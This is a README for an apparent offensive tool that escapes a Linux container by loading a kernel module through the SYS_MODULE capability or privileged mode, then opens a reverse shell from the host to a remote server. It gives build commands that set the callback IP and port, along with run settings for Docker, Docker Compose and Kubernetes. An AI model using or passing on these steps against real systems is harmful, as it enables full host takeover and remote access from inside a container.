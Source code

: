 # Container Breakout Using Kernel Modules

# Summary
Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on the host (like a virtual machine), containers share the host resources. This makes escaping a container slightly easier than VM. Whether the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, are the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within the container. This project exploits that capability to create a reverse from the local host to a remote server.

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
By default, a simple build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory of Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port insure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the foallowing in the config:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```
